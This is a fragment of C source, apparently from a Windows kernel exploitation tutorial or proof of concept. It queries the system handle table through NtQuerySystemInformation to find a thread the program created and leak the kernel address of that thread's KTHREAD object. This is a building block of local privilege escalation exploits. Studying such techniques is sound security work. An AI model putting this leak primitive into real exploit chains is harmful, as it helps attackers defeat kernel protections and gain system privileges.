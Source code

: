 ```c
		//
		if (out != NULL)
		{
			//
			// Free the memory
			//
			free(out);

			//
			// Bail out
			//
			goto exit;
		}

		//
		// Bail out
		//
		goto exit;
	}
	else
	{
		//
		// NtQuerySystemInformation should have succeeded
		// Parse all of the handles, find the current thread handle, and leak the corresponding object
		//
		for (ULONG i = 0; i < out->NumberOfHandles; i++)
		{
			//
			// Store the current object's type number
			// Thread object = 0x8
			//
			DWORD objectType = out->Handles[i].ObjectTypeNumber;

			//
			// Are we dealing with a handle from the current process?
			//
			if (out->Handles[i].ProcessId == GetCurrentProcessId())
			{
				//
				// Is the handle the handle of the "dummy" thread we created?
				//
				if (dummythreadHandle == (HANDLE)out->Handles[i].Handle)
				{
					//
					// Grab the actual KTHREAD object corresponding to the current thread
					//
					ULONG64 kthreadObject = (ULONG64)out->Handles[i].Object;

					//
					// Free the memory
					//
					free(out);

					//
					// Return the KTHREAD object
					//
					return kthreadObject;
				}
			}
		}
	}

```
